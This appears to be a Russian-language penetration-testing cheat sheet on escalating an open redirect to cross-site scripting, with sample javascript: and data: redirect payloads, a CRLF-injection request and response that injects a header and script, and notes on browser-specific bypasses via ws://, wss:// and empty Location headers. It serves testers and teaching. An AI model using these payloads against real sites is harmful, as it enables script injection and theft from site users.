 # Open Redirect To XSS

## Open Redirect to XSS via javascript: schema

```
Redirect: https://example.com/?url=https://attacker.com/

Пробуем:
HTMLi: https://example.com/?url=data:text/html;%3Ch1%3Etest%3C/h1%3E
XSS: https://example.com/?url=javascript:prompt(document.domain)//
```

## Open Redirect to XSS via CRLF&#x20;

paper: [https://www.gremwell.com/firefox-xss-302](https://www.gremwell.com/firefox-xss-302)

Если у нас есть open redirect, то мы можем попробовать встроить через CRLF свой заголовок и свое тело в ответ сервера

```
GET /?redir=https://other.com/%0AInjected-Header:%20value%0A%0A<script>alert(1)</script> HTTP/1.1
Host: test.com


HTTP/1.0 302 Found
Location: https://other.com/
Injected-Header: value

<script>
    alert(1)
</script>
```

Однако, современные браузеры (Google Chrome, IE, Firefox) не интерпретируют HTTP response body, если статус ответа 302. Следовательно, XSS пэйлоад бесполезен. Ищем обход!

Есть статьи и отчеты, в которых говорится, что в каких-то версиях отрабатывали xss payloads, если схемы перенаправлений были: mailto:// и какие-то еще отдельные. Еще был отчет у Twiiter, в котором перенаправление было по схеме //x:1/.

Автор статьи решил профаззить по этому списку схем: [IANA URI schemes list](https://www.iana.org/assignments/uri-schemes/uri-schemes.txt). И фаззил следующие реддиректы: redir=\[URI\_SCHEME]://gremwell.com%0A%0A\[XSS\_PAYLOAD]

В итоге, только в FF отработали 2 схемы (вызвали alert()) - ws:// и wss://

Сергей Бобров в комментах к твиту указал на то, что Google Chrome с пустым Location, так же исполняет payoad!
